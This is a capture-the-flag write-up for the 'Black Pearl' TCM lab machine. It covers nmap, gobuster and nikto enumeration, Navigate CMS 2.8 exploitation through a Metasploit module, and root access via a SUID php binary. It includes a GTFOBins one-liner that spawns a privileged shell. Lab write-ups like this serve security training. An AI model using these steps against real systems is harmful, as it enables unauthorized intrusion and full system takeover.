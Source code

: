 ```yaml
---
title: Black Pearl (TCM)

date: "2023-12-26"

author: "MatDef"

---
```


# Description:
- NONE

# Information Gathering

## Enumeration

### nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2

```
#### Port 80 nginx 1.14.2 Webserver Default
nginx 1.14.2
Commentary on Website:
`Webmaster: alek@blackpearl.tcm`
--> added `blackpearl.tcm` to /etc/hosts
-> found index.php: phpinfo()

#### gobuster dir scan
`/secret` -> Note with 'Directory busting not needed' (with IP)
`/navigate` -> CMS Navigate 2.8 (with host)

#### nikto
`/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.`

#### Port 53 ISC? dns? UDP?
Pentestind Dns
ISC Bind 9.11.5-P4-5.1
```shell
dig -x blackpearl.tcm @192.168.111.12                                             
; <<>> DiG 9.19.17-2~kali1-Kali <<>> -x blackpearl.tcm @192.168.111.12
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 59547
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: a59c48e9058c21865a28dbb0658ad523a0c9284d86cb2043 (good)
;; QUESTION SECTION:
;tcm.blackpearl.in-addr.arpa.	IN	PTR

;; Query time: 4 msec
;; SERVER: 192.168.111.12#53(192.168.111.12) (UDP)
;; WHEN: Tue Dec 26 12:05:39 EST 2023
;; MSG SIZE  rcvd: 84

```
-> nothing interesting
#### gobuster
Nothing found with vhost/dns module


# Exploitation

Navigate CMS 2.8 is vulnerabele to Remote Code Execution (Metasploit-Module)
```shell
Payload information:

Description:
  This module exploits insufficient sanitization in the database::protect
  method, of Navigate CMS versions 2.8 and prior, to bypass authentication.

  The module then uses a path traversal vulnerability in navigate_upload.php
  that allows authenticated users to upload PHP files to arbitrary locations.
  Together these vulnerabilities allow an unauthenticated attacker to
  execute arbitrary PHP code remotely.

  This module was tested against Navigate CMS 2.8.
```
![](images/foothold_meterpreter.png)

### Linpeas 

```shell
[REDACTED]
╔══════════╣ SUID - Check easy privesc, exploits and write perms
[REDACTED]
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
[REDACTED]
```
`gtfobins SUID bit set`: 

```shell
CMD="/bin/sh"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
Root Access:

```shell
ls /root
flag.txt  interfaces

cat /root/flag.txt
Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```
---

### References & Further Research
- [CVE-2018-17552](https://nvd.nist.gov/vuln/detail/CVE-2018-17552)
- [CVE-2018-17553](https://nvd.nist.gov/vuln/detail/CVE-2018-17553)
- [GTFO-BINS_Php](https://gtfobins.github.io/gtfobins/php)
